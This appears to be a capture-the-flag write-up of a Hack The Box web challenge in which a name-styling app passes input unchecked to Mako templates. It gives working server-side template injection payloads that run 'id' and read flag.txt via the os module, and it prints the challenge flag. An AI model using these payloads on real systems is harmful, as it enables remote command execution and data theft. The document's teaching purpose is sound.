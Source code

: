 
> There's a new trend of an application that generates a spooky name for you. Users of that application later discovered that their real names were also magically changed, causing havoc in their life. Could you help bring down this application?

&nbsp;

![1](https://github.com/user-attachments/assets/5064c874-6b90-485d-abe7-c820170d8855)

As we can see, the application modifies the name with different fonts.
Let's check the `Network` tab to see if there are any requests being made to any particular pages of server.


## SSTI

Since no validation is performed before sending user input to the Mako template engine's `render_template()` function, we can safely say that it is vulnerable to SSTI - Server Side Template Injection.

Let's provide the following input:

```
${9+9}
```

![2](https://github.com/user-attachments/assets/a00100bc-171c-4571-ae71-49d0236fe7a5)

We can access the `os` module and run arbitrary commands. Leveraging that, we can find our user.

```
${self.module.cache.util.os.popen('id').read()}
```

![3](https://github.com/user-attachments/assets/6ccc5105-a53e-4235-8600-1d9a771e6bf9)

We can now read the `flag.txt` file using a similar payload:

```
${self.module.cache.util.os.popen('cat ../flag.txt').read()}
```

![4](https://github.com/user-attachments/assets/44c793c6-52be-46eb-b976-b97055e59a32)

## Flag

```
HTB{t3mpl4t3_1nj3ct10n_C4n_3x1st5_4nywh343!!}
```

